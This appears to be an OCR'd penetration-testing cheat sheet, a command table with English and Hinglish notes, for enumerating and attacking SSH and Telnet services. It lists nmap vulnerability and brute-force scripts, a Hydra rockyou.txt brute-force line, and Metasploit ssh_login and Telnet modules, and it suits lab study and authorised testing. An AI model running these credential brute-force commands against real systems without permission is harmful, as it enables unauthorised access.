 | —————————————————————— | ————————————————————————————————— |
| 2] ssh (22) |  |
| `nmap -sV -sC --script vuln <target_ip> -p 22` | ssh port scan with vuln script |
| ssh username@ip_address
 | ssh port me login using valid credencial |
| **ssh nmap script   /usr/share/nmap/scripts** |  |
| $ ls |grep ssh
ssh2-enum-algos.nse
ssh-auth-methods.nse
ssh-brute.nse |  |
| nmap -p22 192.168.0.106 --script=ssh-brute.nse | single nmap script use  |
| nmap -p 22 --script=ssh-* <target>
 | nmap all script use at one time |
| hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>
 |   ssh **Bruteforce (Hydra)** |
| msfconsole   |  |
| search ssh    OR     search ssh_login
 |  |
| use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target>
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
 | **SSH Brute-Force via Metasploit** |
| use auxiliary/scanner/ssh/ssh_identify_pubkeys
set RHOSTS <target>
run
 |  **Agar weak key mili, toh tum login kar sakte ho!** |
| —————————————————————— | ————————————————————————————————— |
| 3] Telnet (23) |  |
| nmap -sV -p 23 <target> | Telnet port (23) with service/version detection. |
| nmap -p 23 -sC -sV <target> | Scans port 23 using default scripts + version detection.  |
| nmap -p 23 --script=telnet-brute <target ip> | Performs brute-force attack using a user/pass list.  |
| > nmap -p 23 --script=telnet-logout <target ip> | Checks how the Telnet server responds after login/logout. set userfile passfile |
| telnet  <target ip> 23 | username passname jb pata chal jaye. |
| nmap -p 23 --script=telnet-banner <target ip> | identify old /vulnenability version. |
| nmap -p 23 --script "telnet-*” | Runs all available Telnet NSE scripts in one go. |
| telnet [T.Ip] [Port no.]   |  Login telnet port |
| Metasploit  |  |
| search telnet | Lists all Telnet-related modules (scanner, login, exploits). |
| use auxiliary/scanner/telnet/telnet_version | use auxiliary/scanner/telnet/telnet_version |